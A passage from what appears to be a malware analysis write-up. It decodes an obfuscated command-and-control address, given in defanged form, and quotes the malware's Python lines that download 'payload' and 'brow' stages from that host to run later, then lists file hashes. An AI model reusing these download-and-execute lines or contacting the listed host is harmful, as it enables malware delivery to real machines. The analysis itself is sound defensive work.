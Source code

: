 Again, pretty long but most is not very relevant. We can see that it has different behavior depending on the OS that is used.

Let's just use python to see what the host is:
```py
>>> host="4yMTIuODk=MTQ3LjEyNC"
>>> host1 = base64.b64decode(host[10:] + host[:10]).decode()
>>> host1
'147[.]124[.]212[.]89' # defanged for safety
>>> host2 = f'http://{host1}:1244'
>>> host2
'hxxp[://]147[.]124[.]212[.]89:1244' # defanged for safety
```

Looking down a little further, most of this script is just messing around with the file system. Here are the important parts:
```py
aa = requests.get(host2+"/payload/"+sType, allow_redirects=True)
```

and 

```py
aa=requests.get(host2+"/brow/"+sType, allow_redirects=True)
```

These two basically get two different files (that are later run). One is located at `http://IP:port/payload` and the other is located at `http://IP:port/brow`.
Let's get these two files by using `wget`. These are actually, already our final stage(s).

## The final stage(s)

Okay I kinda lied, to reach the final stage, we have to repeat the process we used in the previous stage, to get back some python code again. I'm not going to write this process down again, we just replace the keyword `exec()` with print, and then pipe the result into a new file.

We end up with two files, we can name them `payload` and `brow`, these are both Python(3) files.

Okay but this raises several questions.

If you were paying attention, you might have noticed that these files were being run as... python files, and I'm saying this is the last stage. Yep, the last stage is Python... which is an interesting decision.

```bash
remnux@remnux:~/Documents/infected/spooky2$ cat stage-3-brow | wc -l
394
remnux@remnux:~/Documents/infected/spooky2$ cat stage-3-payload | wc -l
583
```

`brow` is shorter, let's look at it first!

### Brow (browser)

> md5: a55436e1110bda8d144672f141fbeaeb 

> sha1: 39798a75802621ab3b78fdbf04c1ad285243b1e6 
